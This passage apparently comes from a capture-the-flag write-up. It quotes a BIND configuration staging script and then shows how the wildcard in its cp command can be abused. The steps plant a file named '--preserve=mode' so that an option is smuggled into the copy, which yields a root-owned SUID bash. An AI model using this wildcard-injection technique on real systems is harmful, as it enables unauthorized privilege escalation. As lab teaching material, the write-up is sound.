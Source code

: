 ```bash
echo "[+] Staging files to $BINDMGR_DIR."
cp .version * /etc/bind/named.bindmgr/

# Check generated configuration with named-checkconf.
echo "[+] Checking staged configuration."
named-checkconf $BINDMGR_CONF >/dev/null
if [[ $? -ne 0 ]] ; then
    echo "[-] ERROR: The generated configuration is not valid. Please fix following errors: "
    named-checkconf $BINDMGR_CONF 2>&1 | indent
    exit 44
else 
    echo "[+] Configuration successfully staged."
    # *** TODO *** Uncomment restart once we are live.
    # systemctl restart bind9
    if [[ $? -ne 0 ]] ; then
        echo "[-] Restart of bind9 via systemctl failed. Please check logfile: "
        systemctl status bind9
    else
        echo "[+] Restart of bind9 via systemctl succeeded."
    fi
fi
```

Examining this script, it seems to first check for a `.version` file in your current directory, then if it finds one, it will compare it to `/etc/bind/named.bindmgr/.version`. If the version is higher, it will copy everything from the current directory to `/etc/bind/named.bindmgr/`

The issue with this is the copy command

```bash
cp .version * /etc/bind/named.bindmgr/
```

The `*` here will simply take everything from the current directory and expand it on the CLI, so if we create a file with a name that is actually a CLI argument for `cp`, that will get expanded and become an argument rather than a file. We can use this to our advantage to preserve permissions on a file that is being copied.

```bash
$ cd /tmp
$ echo 1 > .version
$ cp /bin/bash .
$ chmod +s bash
$ echo > '--preserve=mode'
```

This will expand to the following command

```bash
$ cp .version --preserve=mode bash /etc/bind/named.bindmgr/
```

And since we used `chmod +s bash`, the resulting file will be owned by `root` and will have the SUID bit set, allowing it to be executed as root. Using the following, we will execute this and make the copy.
